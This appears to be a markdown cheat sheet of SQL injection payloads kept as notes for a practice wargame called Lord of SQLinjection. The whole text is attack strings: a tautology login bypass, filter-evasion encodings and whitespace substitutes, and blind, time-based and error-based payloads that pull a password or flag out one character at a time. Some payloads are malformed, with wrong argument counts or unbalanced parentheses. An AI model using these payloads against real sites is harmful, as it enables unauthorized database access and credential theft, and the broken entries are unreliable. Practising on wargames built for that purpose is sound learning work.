 # Lord-of-SQLinjection
#web_hacking #SQLinjection

?pw=' or 1=1 --%20
?pw like "a%"
?pw like "a_b_c"
?id in ("admin")
or -> ||
and -> %26%26
admin -> 0x61646d696e
0x -> 0b

<h4>bypass ' '</h4>
%09 (\t)
%0a (\n)
%0d (\r)
%0b
%0c

<h4>Blind SQL injection</h4>
length(pw)<10
ord(substr(pw,2,1)) > 5
substr(pw,2,1) > char(5)
substring(pw,2,1) > char(5)
substr(pw from 2 for 1) > char(5)
ord(right(left(pw,2,1)))>5

<h4>Time-based SQL injection</h4>
if((ord(substr(pw,2,1)>5), (sleep(2)), 1)
id='admin' and length(pw)=10 and sleep(2)
pw=(sleep(3*(length(flag)=10)))

<h4>Error-based SQL injection</h4>
if(ord(substr(pw,2,1)>5, (select 1 union select 2), 1)
order by (select 1 union select length(pw)<10)

<li>limit 0,1</li>
<li>and>or</li>
<li>if there is # -> use Line Feed!</li>
<li>if you want to make the query error, pw=1=(select 1 union select 2)</li>
<li>ereg -> %00, case sensitive</li>